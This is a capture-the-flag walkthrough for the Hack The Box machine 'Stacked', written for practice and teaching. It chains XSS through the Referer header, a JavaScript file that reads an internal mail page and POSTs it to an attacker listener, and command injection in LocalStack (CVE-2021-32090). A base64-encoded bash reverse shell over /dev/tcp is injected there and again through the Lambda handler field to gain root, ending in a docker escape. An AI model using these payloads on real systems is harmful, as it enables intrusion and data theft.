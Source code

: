## Enumeration

```bash
PORT STATE SERVICE VERSION 
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) 
80/tcp open http Apache httpd 2.4.41 
|_http-server-header: Apache/2.4.41 (Ubuntu) 
|_http-title: STACKED.HTB 
2376/tcp open ssl/docker? 
| ssl-cert: Subject: commonName=0.0.0.0 
| Subject Alternative Name: DNS:localhost, DNS:stacked, IP Address:0.0.0.0, IP Address:127.0.0.1, IP Address:172.17.0.1 
| Not valid before: 2021-07-17T15:37:02 
|_Not valid after: 2022-07-17T15:37:02 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP
Add entry to local hosts:
`echo "10.10.11.112 stacked.htb" | sudo tee -a /etc/hosts`

On the web app we don't find anything interesting. There's a `SEND` function on the main page but it does not work properly. The source code also doesn't reveal anything. 

Let's move onto vhost and directory enumeration:

```bash
wfuzz -w /usr/share/dirb/wordlists/common.txt -H "Host: FUZZ.stacked.htb" --sc 200
```

Add the new subdomain discovered in hosts file `portfolio.stacked.htb`.

Navigate to the portfolio page. In the About section we learn that a local AWS implementation based on LocalStack is used. There we can download a mock AWS demo (the docker image) of their service. 

Read the docker file. There we find the following information:

```bash
container_name: "${LOCALSTACK_DOCKER_NAME-localstack_main}" 
image: localstack/localstack-full:0.12.6 
network_mode: bridge 
ports: 
	- "127.0.0.1:443:443" 
	- "127.0.0.1:4566:4566" 
	- "127.0.0.1:4571:4571" 
	- "127.0.0.1:${PORT_WEB_UI-8080}:${PORT_WEB_UI-8080}"
```

This configuration specifies a LocalStack Docker container listening on 443, 4566, 4571, and possibly 8080, offering different services. 

Based on the version of LocalStack we find the following CVE-2021-32090:

_The dashboard component of StackLift LocalStack 0.12.6 allows attackers to inject arbitrary shell commands via the functionName parameter._

On the Contact page we see multiple text fields. We can inject multiple XSS payloads all at once by requesting different external resources based on the name of each field, e.g., 

```bash
# on the email field
user@email.com<img src="http://local-ip/email"></img>
# on the name field
123456789<img src="http://local-ip/name"></img>
# ... and so on
```

After the injection we get notified with an error message that reads "XSS detected!". That's because some type filtering prevents XSS on the body of the http request.

However, using the same logic we can try injecting to common headers like the `User-Agent` and `Referer` headers as well. After a while, we get a hit on the `Referer` header.

```http
POST /process.php HTTP/1.1 
Host: portfolio.stacked.htb 
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0 Accept: application/json, text/javascript, */*; q=0.01 
Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Content-Type: application/x-www-form-urlencoded; charset=UTF-8 
X-Requested-With: XMLHttpRequest 
Content-Length: 208 
Origin: http://portfolio.stacked.htb 
DNT: 1 Connection: close 
Referer: <img src="http://local-ip/referer"></img> 

fullname=user&email=user%40stacked.htb&tel=012345667890&subject=Help&message=Please+help
```

We initially used a python server to receive the request but that doesn't provide enough information and we want to see the headers that are send our way. We can use netcat instead and repeat the request. 

```bash
$ sudo nc -lnvp 80

Connection from 10.10.11.112:55460 
```
```http
GET / HTTP/1.1 
Host: 10.10.14.43:80 
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:59.0) Gecko/20100101 Firefox/59.0 
Accept: */* 
Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Referer: http://mail.stacked.htb/read-mail.php?id=2 
Connection: keep-alive
```

The `referer` reveals a new domain `mail.stacked.htb` which we didn't find from the initial vhost enumeration because it redirects back to the main page.

To access the contents of that domain we need to construct a **CSRF attack**. For this attack we need to host a malicious JS file (mimicking the way the initial AJAX request is made from the `XMLHttpRequest` lib) that retrieves sensitive info that exists on the `mail` host. The JS file will look like this:

```Javascript
var req = new XMLHttpRequest();
req.open('GET', 'http://mail.stacked.htb/read-mail.php?id=2', false);
req.send();
var resp = req.responseText;

var req2 = new XMLHttpRequest();
req2.open('POST', 'http://local-ip:1234/', false);
req2.send(resp);
```

Open a local server `python3 -m http.server` to host the file and `nc -lnvp 1234 | out.html` to receive the response.

Modify the post request to `/process/php` and change the `Referer` header to `Referer: <img src="http://local-ip/malicious-file.js"></img>`.

To view the html file on the browser first delete the http headers that netcat adds on it. From the browser we can see that this is a mail service and we find some mails on Inbox section. The message from "Jeremy Taint" is linked with `id=1` so we can repeat the request and modify the malicious JS to read that mail. 

After the attack is finished, we can view the message which states that an S3 instance is set up on `s3-testing.stacked.htb`.

Add this domain to our hosts file. Now that we found an Api we can exploit the **CVE-2021-32090** vulnerability. We can do this via Lambda functions. 

Before that we need to install the AWS command line client `apt install awscli`. Using the CLI we can create a Lambda function. Find an example on how to create one [here](https://docs.aws.amazon.com/lambda/latest/dg/gettingstarted-awscli.html)

Before you create the lambda function we need to configure the region with `aws configure` (provide dummy names for the first two fields) and also create an `index.js` file with the following content and add it to a ZIP archive called `api-handler.zip`. The contexts of this are:

```bash
'use strict'

const apiHandler = (payload, context, callback) => {
    console.log(`Function apiHandler called with payload ${JSON.stringify(payload)}`);
    callback(null, {
        statusCode: 201,
        body: JSON.stringify({
            message: 'Hello World'
        }),
        headers: {
            'X-Custom-Header': 'ASDF'
        }
    }); 
}
    
module.exports = {
    apiHandler,
}
```

`zip api-handler.zip lambda.js`

Next, create the lambda function:
```bash
aws lambda --endpoint=http://s3-testing.stacked.htb create-function \
> --function-name 'whatever' --region eu-west-1
> --zip-file fileb://api-handler.zip --handler index.js --runtime nodejs10.x \
> --role whatever 
```

Remember from the CVE that the injection point is the `function-name` parameter and we need to find the `/dashboard` endpoint too. 

Next, for the command injection we are going to host a file and execute it to gain a shell on the system.  A good practice is to base64 encode the payload to avoid any bad characters issues on the CLI.

`echo -n 'bash -i  &>/dev/tcp/10.10.14.43/4444  0>&1' | base64 -w 0`

Host the file and open the listener:
`python3 -m http.server 5555`
`nc -lnvp 4444`

Modify the following parameter on the lambda function: 
```bash
--function-name 'a;echo <b64-here> | base64 -d | bash'
```

We already know that the WEB-UI is on port 8080 so we can change the `Referer` to `<script>document.location="http://127.0.0.1:8080"</script>`. Create the lambda function as shown above and then send the request. 

After a while we get a shell on the system and we're on the LocalStack container as user `localstack`.

## Privilege Escalation (Hunting for 0-day CVEs)

Download `pspy64` using `wget`. We'll look for all the calls the program makes so run `pspy64`. On a different pane when we create an aws lambda function and **invoke** it we can see on the system the calls that being made out.

```bash
aws lambda --endpoint=http://s3-testing.stacked.htb create-function \ 
> --region eu-west-1 --function-name "test" --runtime nodejs10.x \ 
> --handler index.js --zip-file fileb://api-handler.zip \ 
> --role whatever 

aws lambda --endpoint=http://s3-testing.stacked.htb invoke --function-name "test" out
```

To invoke this process on the system it needs docker (which consequently requires root permissions) we can see the root execute a docker create command to run the lambda instance and passing the `runtime` and `handler` fields on the command. So we have a couple of injection points here. This allows us to inject and execute arbitrary commands with root privileges. 

Now we can grab our reverse base64 shell from earlier and inject into the handler parameter (remember to listen for connections with netcat).

```bash
aws lambda --endpoint=http://s3-testing.stacked.htb create-function \ 
> --region eu-west-1 --function-name "shell" --runtime nodejs10.x \ 
> --handler '$(echo <b64-here> | base64 -d | bash)' --zip-file fileb://api-handler.zip \ 
> --role whatever 

aws lambda --endpoint=http://s3-testing.stacked.htb invoke --function-name "shell" out
```

Within seconds we have a shell as root. Now we can run docker commands to escape the docker. First view the docker images wtih `docker images`.

Use an existing image and override its entrypoint with `/bin/sh`.

`docker run -v /:/mnt --entrypoint sh -it 0601ea177088`. Thereafter we can create a ssh key and connect to the machine with a proper shell as root.

